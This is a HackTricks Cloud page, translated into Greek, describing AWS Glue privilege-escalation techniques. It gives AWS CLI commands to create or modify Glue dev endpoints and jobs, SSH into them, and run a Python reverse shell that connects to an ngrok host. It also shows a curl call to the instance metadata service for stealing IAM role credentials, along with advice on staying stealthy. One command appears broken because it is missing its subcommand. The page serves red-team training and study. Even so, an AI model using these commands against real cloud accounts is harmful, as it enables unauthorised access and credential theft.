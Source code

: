 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Οι χρήστες με αυτές τις άδειες μπορούν να **ρυθμίσουν ένα νέο AWS Glue development endpoint**, **αναθέτοντας έναν υπάρχοντα ρόλο υπηρεσίας που μπορεί να αναληφθεί από το Glue** με συγκεκριμένες άδειες σε αυτό το endpoint.

Μετά τη ρύθμιση, ο **επιτιθέμενος μπορεί να SSH στην περίπτωση του endpoint**, και να κλέψει τα IAM διαπιστευτήρια του ανατεθέντος ρόλου:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Για σκοπούς μυστικότητας, συνιστάται η χρήση των IAM διαπιστευτηρίων από μέσα στην εικονική μηχανή Glue.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που έχει καθοριστεί.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Χρήστες με αυτή την άδεια μπορούν να **αλλάξουν το υπάρχον κλειδί SSH** του σημείου ανάπτυξης Glue, **επιτρέποντας την πρόσβαση μέσω SSH σε αυτό**. Αυτό επιτρέπει στον επιτιθέμενο να εκτελεί εντολές με τα δικαιώματα του συνημμένου ρόλου του σημείου ανάπτυξης:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που χρησιμοποιείται.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Χρήστες με **`iam:PassRole`** σε συνδυασμό με είτε **`glue:CreateJob` είτε `glue:UpdateJob`**, και είτε **`glue:StartJobRun` είτε `glue:CreateTrigger`** μπορούν να **δημιουργήσουν ή να ενημερώσουν μια εργασία AWS Glue**, συνδέοντας οποιονδήποτε **λογαριασμό υπηρεσίας Glue**, και να ξεκινήσουν την εκτέλεση της εργασίας. Οι δυνατότητες της εργασίας περιλαμβάνουν την εκτέλεση αυθαίρετου κώδικα Python, ο οποίος μπορεί να εκμεταλλευτεί για να εγκαταστήσει ένα reverse shell. Αυτό το reverse shell μπορεί στη συνέχεια να χρησιμοποιηθεί για να εξάγει τα **διαπιστευτήρια IAM** του ρόλου που συνδέεται με την εργασία Glue, οδηγώντας σε πιθανή μη εξουσιοδοτημένη πρόσβαση ή ενέργειες με βάση τις άδειες αυτού του ρόλου:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που καθορίζεται.

### `glue:UpdateJob`

Μόνο με την άδεια ενημέρωσης, ένας επιτιθέμενος θα μπορούσε να κλέψει τα IAM Credentials του ήδη συνημμένου ρόλου.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που είναι συνημμένος.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
